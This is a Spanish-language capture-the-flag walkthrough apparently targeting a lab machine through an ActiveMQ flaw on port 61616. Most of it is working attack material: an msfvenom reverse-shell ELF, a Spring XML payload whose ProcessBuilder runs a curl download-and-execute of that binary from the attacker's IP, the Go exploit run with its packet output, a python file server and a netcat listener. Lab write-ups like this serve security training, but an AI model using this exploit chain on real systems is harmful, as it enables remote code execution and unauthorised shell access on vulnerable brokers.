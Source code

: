 En el exploit nos muestran que hay que crear un ejecutable de linux (`.elf`) con metasploit que entable una reverse shell. 
Introducimos la IP de kali y el puerto en el que escucharemos por netcat. Todo lo haremos desde el directoiro del Exploit  

```bash
$: msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.102 LPORT=443 -f elf > shell.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
```

Tambien nos comparten un par de `xmls` para Linux y Windows. Retocamos la IP y el puerto, mas el nombre del binario.

```bash
$: vim poc-linux.xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
        <list>
            <value>sh</value>
            <value>-c</value>
            <!-- The command below downloads the file and saves it as test.elf -->
            <value>curl -s -o shell.elf http://10.10.14.102:8080/shell.elf; chmod +x ./shell.elf; ./shell.elf</value>
        </list>
        </constructor-arg>
    </bean>
</beans>
```
En cuanto al archivo `main.go` simplemente le manda un paquete en binario que pide al broker solicitarnos el XML malicioso (el cual tendremos que 
servir en un servidor de python). Corremos el exploit y ganamos la reverse shell.

```bash
$: sudo go run ./main.go -i 10.10.11.243 -p 61616 -u http://10.10.14.102:8080/poc-linux.xml
     _        _   _           __  __  ___        ____   ____ _____
    / \   ___| |_(_)_   _____|  \/  |/ _ \      |  _ \ / ___| ____|
   / _ \ / __| __| \ \ / / _ \ |\/| | | | |_____| |_) | |   |  _|
  / ___ \ (__| |_| |\ V /  __/ |  | | |_| |_____|  _ <| |___| |___
 /_/   \_\___|\__|_| \_/ \___|_|  |_|\__\_\     |_| \_\\____|_____|

[*] Target: 10.10.11.243:61616
[*] XML URL: http://10.10.14.102:8080/poc-linux.xml

[*] Sending packet: 000000791f000000000000000000010100426f72672e737072696e676672616d65776f726b2e636f6e74657874
2e737570706f72742e436c61737350617468586d6c4170706c69636174696f6e436f6e74657874010026687474703a2f2f31302e31302e
31342e3130323a383038302f706f632d6c696e75782e786d6c
 
$: sudo python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.10.11.243 - - [03/Jan/2024 13:19:16] "GET /poc-linux.xml HTTP/1.1" 200 -
10.10.11.243 - - [03/Jan/2024 13:19:16] "GET /poc-linux.xml HTTP/1.1" 200 -
10.10.11.243 - - [03/Jan/2024 13:19:16] "GET /shell.elf HTTP/1.1" 200 -

$: sudo nc -nlvp 443
listening on [any] 443 ...
```